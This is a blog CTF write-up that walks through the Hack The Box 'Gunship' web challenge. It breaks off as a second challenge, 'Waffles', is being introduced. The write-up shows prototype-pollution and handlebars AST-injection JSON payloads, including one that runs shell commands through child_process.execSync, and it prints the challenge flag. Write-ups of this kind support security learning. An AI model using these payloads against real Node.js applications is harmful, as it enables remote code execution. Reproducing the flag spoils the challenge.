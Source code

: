 ```yaml
---
permalink: /portfolio/android/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: HTB CTF
---
```


## Gunship

Gunship is an easy web challenge with one star difficulty. It is a simple website that asks you for a name of a band member you like best and then responds with `Hello guest, thank you for letting us know!`. After throwing some tests at it, we started looking through the code. There we found this:

```js
// unflatten seems outdated and a bit vulnerable to prototype pollution
// we sure hope so that po6ix doesn't pwn our puny app with his AST injection on template engines
```

Ah! This application is vulnerable for AST injection! And apparently some po6ix is able to pwn this. After a quick google we found the page of this po6ix and he has a nice blog post about AST injection. ([source](https://blog.p6.is/AST-Injection/)) AST pollution is a where you can abuse JavaScript's prototype system to write into the memory. Basically, JS's prototyping is setting a default static value to an object, with is always read first. So being able to write into objects is a very good way to exploit a application.

There first tested payload is:

```json
{
  "artist.__proto__.name": "Westaway"
}
```

This sets the the name value of artist to always be "Westaway", this way we will always get a reply via `handebars`, which is vulnerable for AST pollution. So let's exploit the `handlebars`

```json
{
"__proto__.pendingContent": "test"
}
```

![response](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/response.png)

This replaces every reply made with handlebars with "test". This is a very good way to get data out of the application. After that we can see how we exploit this system. As we look further to po6ix's blog, there is an RCE in handlebars. The blog shows that this payload can lead to an RCE:

```json
"__proto__.type": "Program",
"__proto__.body": [{
  "type": "MustacheStatement",
  "path": 0,
  "params": [{
    "type": "NumberLiteral",
    "value": "process.mainModule.require('child_process').execSync('id')"
  }],
  "loc": {
    "start": 0,
    "end": 0
  }
}]
```

The `type` states that the body is a Program, or something to execute. Then the value of the parameter is executed. In this case it just runs `id` in the shell. We cannot read the value of this, because it is not written any where. For that we edit the `value` to:

```json
"value": "Object.prototype.pendingContent = process.mainModule.require('child_process').execSync('id').toString()"
```

![result](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/result.png)

Alright, now we have an RCE, but it seems that we cannot execute more then one command, because the system will not accept a second command. But, we can reset the machine and we only need one command.

From the `entrypoint.sh` we know where the flag is and that it starts with `flag` and then 5 random characters. So we want to read all files with starting with flag.

```bash
# Generate random flag filename
FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
mv /app/flag /app/flag$FLAG
```

So my payload is this:

![payload](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/payload.png)

![flag](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/ctf/flag.png)

We execute the payload to read all files starting with flag and then we write it into the pendingContent. The second response uses handlebars, so the pendingContent is also send. With gives us the flag!

HTB{wh3n_l1f3_g1v3s_y0u_p6_st4rt_p0llut1ng_w1th_styl3}

## Waffles

The second challenge I worked on was waffles, this was a more difficult web challenge. A php website where you can order a waffle or an icecream.